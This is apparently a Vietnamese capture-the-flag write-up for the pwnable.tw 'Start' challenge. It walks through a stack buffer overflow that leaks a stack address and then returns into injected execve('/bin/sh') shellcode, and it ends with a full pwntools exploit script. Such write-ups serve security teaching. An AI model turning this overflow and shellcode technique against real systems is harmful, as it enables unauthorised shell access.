



# pwnable.tw - Start

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped

```
Đây là file 32-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```

Full security disable 

Tiếp đến đưa file vào ida-32bit


# 2. Ý tưởng

Đầu tiên bài này sử dụng `sys_write` để đọc giá trị tại địa chỉ của stack thông qua esp.


Từ đây sẽ in ra chuỗi `Let's start the CTF:` trong stack.

Tiếp đến là đọc chuỗi input của ta nhập vào và lưu vào stack



Ở đây lưu giá trị 0x3c vào dl -> số ký tự nhập vào là 0x3c

Mà chỉ `add esp, 0x14`

-> Lợi dụng điểu này ghi đè vào địa chỉ trả về ở trên stack

# 3. Khai thác

- Bước 1: Leak addr

```
mov_ecx_esp = 0x8048087
payload = flat(
    b"a"*20,
    mov_ecx_esp
    )
p.sendafter(b" CTF:",payload)
leak = int.from_bytes(p.recv(8),"little") - 0x100000000
```

Ở đây ta sẽ ghi đè 20 bytes tới `ret_addr` và ghi đoạn `mov_ecx_esp` vào `ret-addr`

Tại sao lại là `mov_ecx_esp`:



Nếu ta quay lại đầu hàm main thì stack lại bị lưu đoạn `Let's start the CTF:` lên stack

-> Nhảy qua đoạn này để leak địa chỉ từ stack.

- Bước 2: ret2shellcode

```
shellcode = b"\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
shellcode_addr = leak + 20
print("[-]Leak:             ", hex(leak))
print("[-]Shellcode_addr:   ", hex(shellcode_addr))
payload = flat(
    b"B"*20,
    shellcode_addr,
    shellcode
    )
p.sendline(payload)
```

Từ địa chỉ được lưu trữ ta tính được địa chỉ shell 

-> ret2shellcode

# Get_shell




# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("start")
libc = elf.libc

local = True 
if local:
    p = process("./start")
    #p = elf.debug(gdbscript='''''')
else:
    p = remote('nc chall.pwnable.tw', 10000)

elf = context.binary = ELF('./start', checksec=False)


mov_ecx_esp = 0x8048087
payload = flat(
    b"a"*20,
    mov_ecx_esp
    )
p.sendafter(b" CTF:",payload)
leak = int.from_bytes(p.recv(8),"little") - 0x100000000

shellcode = b"\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
shellcode_addr = leak + 20
print("[-]Leak:             ", hex(leak))
print("[-]Shellcode_addr:   ", hex(shellcode_addr))
payload = flat(
    b"B"*20,
    shellcode_addr,
    shellcode
    )
p.sendline(payload)


p.interactive()
```


